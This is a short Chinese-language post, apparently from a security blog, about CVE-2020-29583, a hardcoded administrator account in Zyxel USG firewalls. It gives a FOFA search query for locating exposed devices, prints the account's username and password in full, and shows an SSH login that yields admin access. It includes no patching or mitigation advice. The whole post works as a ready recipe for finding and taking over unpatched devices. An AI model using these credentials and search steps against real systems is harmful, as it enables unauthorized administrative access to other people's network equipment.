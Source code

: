 #  Zyxel-USG-Series-账户硬编码漏洞（CVE-2020-29583）   
原创 骇客安全  骇客安全   2025-04-13 16:00  
  
# FOFA:  
  
```
title="USG40"
```  
  
```
Username: zyfwp
Password: PrOw!aN_fXp
```  
  
  
该帐户可以同时在SSH和Web界面上使用。  
  
```
$ ssh zyfwp@192.168.1.252
Password: Pr*******Xp
Router> show users current
No: 1
  Name: zyfwp
  Type: admin
(...)
Router>
```  
  
  
  
